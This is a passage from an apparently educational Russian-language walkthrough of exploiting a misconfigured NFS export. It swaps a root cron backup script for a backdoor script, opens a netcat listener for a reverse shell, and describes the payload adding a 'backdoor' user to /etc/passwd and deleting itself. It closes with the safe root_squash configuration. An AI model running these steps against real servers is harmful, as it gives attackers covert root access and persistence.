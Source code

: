 
#### Шаг 5: Подмена системного скрипта
**Цель:** Заменить легитимный скрипт на вредоносный.

**Команды:**
```bash
sudo mv /mnt/nfs_scripts/daily_backup.sh /mnt/nfs_scripts/daily_backup.sh.orig
sudo mv /mnt/nfs_scripts/evil_backdoor.sh /mnt/nfs_scripts/daily_backup.sh
sudo chmod +x /mnt/nfs_scripts/daily_backup.sh
```

**Пояснения:**
1. `mv`: Переименование файлов
2. `chmod +x`: Установка права на выполнение (обязательно для скриптов)
3. Последовательность действий:
   - Сохранить оригинальный скрипт как резервную копию
   - Переименовать вредоносный скрипт в имя оригинального
   - Установить те же права доступа

**Важно:**  
Без `chmod +x` cron не сможет выполнить скрипт, и атака провалится.

---

#### Шаг 6: Ожидание и получение доступа
**Цель:** Получить контроль над сервером при срабатывании скрипта.

**На атакующей машине:**
```bash
nc -nvlp 4444
```

**Пояснения:**
1. `nc -nvlp 4444`: Утилита netcat слушает порт 4444
   - `-n`: Не преобразовывать доменные имена
   - `-v`: Подробный вывод
   - `-l`: Режим прослушивания
   - `-p`: Указание порта

**Что происходит на сервере:**
1. Cron запускает `daily_backup.sh` от root в 3:00 AM
2. Скрипт добавляет пользователя `backdoor` в `/etc/passwd`
3. Устанавливается обратное TCP-соединение с атакующим
4. Оригинальный скрипт выполняется для маскировки
5. Вредоносный скрипт самоликвидируется

---

### Технический анализ: Почему это работает

**Проблема 1: Неправильная настройка NFS**
```bash
# Опасная конфигурация:
/home *(rw,sync,no_root_squash)

# Безопасная альтернатива:
/home 192.168.1.0/24(rw,sync,root_squash,all_squash)
```
